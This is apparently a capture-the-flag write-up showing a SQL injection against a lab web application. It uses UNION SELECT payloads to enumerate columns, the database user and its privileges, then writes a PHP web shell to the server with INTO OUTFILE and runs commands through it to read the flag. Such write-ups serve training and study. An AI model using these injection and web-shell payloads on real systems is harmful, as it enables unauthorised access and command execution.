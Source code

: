 <img width="999" height="232" alt="image" src="https://github.com/user-attachments/assets/d378e97d-2751-4cd7-b960-396943a965b0" />

To determine the number of columns, I repeat the payload above but increasing the number of columns each time until the output is displayed in the table
</br>

Finally, the payload ```' UNION SELECT 1,2,3,4,5# ``` causes the table to be updated with the output.</br>
Looking at the table and our payload, we know that the table has ```5``` columns, but only column ```2, 3, 4, 5``` are shown, hence any command execution has to be placed in those columns for the output to be displayed
<img width="1000" height="356" alt="Screenshot 2025-07-15 002707" src="https://github.com/user-attachments/assets/c5c6281b-6374-4856-bfb2-46703dbbbab3" />

First, we can use ```' UNION SELECT 1, user(), 3, 4, 5#``` to find out that the current user is root@localhost
<img width="998" height="354" alt="image" src="https://github.com/user-attachments/assets/30e6ef7a-b3b3-4826-83d3-53a473215478" />

Next, using ```' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"```, we can see the privileges granted to our user. The most important to us is the ```FILE```, which allows us to read and write files
<img width="1916" height="739" alt="image" src="https://github.com/user-attachments/assets/f9aac649-92a1-4e5c-8ac2-58a9a9f9d4f4" />

The output of ```' UNION SELECT 1, variable_name, variable_value, 4, 5 FROM information_schema.global_variables where variable_name="secure_file_priv"#``` is blank, which suggests that there are no restrictions to the ability to read/write files
<img width="1003" height="363" alt="image" src="https://github.com/user-attachments/assets/4308ae82-d148-40a2-b933-93d4c6550673" />

We are going to use the payload ```' union select 1,'<?php system($_REQUEST[0]); ?>', 3, 4, 5 into outfile '/var/www/html/shell.php'#``` to write a payload to a file on the web server which would allow us to execute commands through querying shell.php
<img width="999" height="229" alt="image" src="https://github.com/user-attachments/assets/9f8fb5fe-55e6-45ce-9d36-0cadb4cba8f1" />
However, there is an error as the user does not have permission to write to the location specified. Taking a look at the current URL, I instead try to write to ```/var/www/html/dashboard/``` instead with ```' union select 1,'<?php system($_REQUEST[0]); ?>', 3, 4, 5 into outfile '/var/www/html/dashboard/shell.php'#```
</br>
<img width="377" height="28" alt="image" src="https://github.com/user-attachments/assets/04d4cb0f-88e2-4572-865f-eaec5643d951" />

As writing to ```/var/www/html/dashboard/``` is successful, we can now execute system commands by specifying our command in the query for ```0```. As we know that the flag we need to find is in the / root directory, we first execute ```ls /``` to know the contents of the root directory by specifying it in the URL as such ```/dashboard/shell.php?0=ls /```
<img width="1000" height="102" alt="image" src="https://github.com/user-attachments/assets/aad98875-095d-4fd7-aa57-07b2580996cb" />

We see that the file name of the flag is ```flag_cae1dadcd174.txt``` and hence we need to run ```cat /flag_cae1dadcd174.txt``` to read the content of the flag by specifying in the URL again ```/dashboard/shell.php?0=cat /flag_cae1dadcd174.txt```

<img width="998" height="113" alt="Screenshot 2025-07-15 010343" src="https://github.com/user-attachments/assets/c5718479-9dd6-4164-b134-6c74a394f127" />

The contents of the flag can be seen inbetween the ```1``` and ```3``` as per the payload written into the file.


